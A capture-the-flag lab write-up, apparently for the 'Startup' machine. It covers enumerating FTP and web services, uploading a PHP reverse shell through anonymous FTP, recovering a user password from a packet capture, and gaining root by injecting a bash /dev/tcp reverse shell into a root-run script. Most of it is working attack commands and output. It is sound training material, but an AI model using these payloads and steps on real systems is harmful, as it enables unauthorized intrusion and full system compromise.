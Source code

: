 Target: 10.10.88.107

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.88.107

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 00:37 PDT
Nmap scan report for 10.10.88.107
Host is up (0.28s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.9.1.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

gobuster
```
$ gobuster dir -u http://10.10.88.107 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

/files                (Status: 301) [Size: 312] [--> http://10.10.90.133/files/]
```

checking index

![index](startup1.png)

checking /files

![/files](startup2.png)

### Findings:Looking for attack vectors

FTP can be accessed through Anonymous FTP login and in /files ftp files can be accessed.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload > rename to trustme.php5
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
<snip>
```

using the Anonymous FTP login upload trustme.php5 
```
$ ftp 10.10.88.107

ftp> cd ftp
250 Directory successfully changed.

ftp> send trustme.php5
local: trustme.php5 remote: trustme.php5
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5491 bytes sent in 0.00 secs (44.7575 MB/s)
```

opening a nc listener on port 8888
```
$ nc -lnvp 8888
```

accessing uploaded file in /files/ftp

![](startup3.png)


```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
$ cat recipe.txt

Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love
```


## Lateral Movement:

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@startup:/$ ls -la

<snip>
drwxr-xr-x   2 www-data www-data  4096 Nov 12 04:53 incidents
<snip>

www-data@startup:/$ cd incidents

www-data@startup:/incidents$ ls -l

total 32
-rwxr-xr-x  1 www-data www-data 31224 Nov 12 04:53 suspicious.pcapng
```

getting the file, fire up a http server
```
www-data@startup:/incidents$ python3 -m http.server 8000
```

in kali
```
$ wget http://10.10.88.107:8000/suspicious.pcapng
```

analyzing the pcapng file

username: lennie

password: c4ntg3t3n0ughsp1c3

trying the the credentials
```
www-data@startup:/incidents$ su - lennie
```

upgrading shell
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

```
lennie@startup:~$ id

uid=1002(lennie) gid=1002(lennie) groups=1002(lennie)
```

```
lennie@startup:~$ cat user.txt

<redacted>
```


## Priv Escalation:


scanning for crontab
```
lennie@startup:~# pspy64

```

looking for suspicious file/s
```
lennie@startup:~$ ls -la

total 20
drwx------ 4 lennie lennie 4096 Nov 12 04:53 .
drwxr-xr-x 3 root   root   4096 Nov 12 04:53 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt

lennie@startup:~$ cd scripts

lennie@startup:~/scripts$ ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 .
drwx------ 4 lennie lennie 4096 Nov 12 04:53 ..
-rwxr-xr-x 1 root   root     77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root   root      1 Apr 20 16:09 startup_list.txt

lennie@startup:~/scripts$ cat planner.sh

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

following /etc/print.sh
```
lennie@startup:~/scripts$ cat /etc/print.sh

#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -la /etc/ | grep 'print.sh'

-rwx------  1 lennie lennie    25 Nov 12 04:53 print.sh
```

writing to print.sh
```
echo -e '#!/bin/bash \nbash -i >& /dev/tcp/10.9.1.128/4242 0>&1' > /etc/print.sh
```

openning another nc listener on port 4242
```
nc -lnvp 4242
```

```
root@startup:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@startup:~# cat root.txt

<redacted>
```
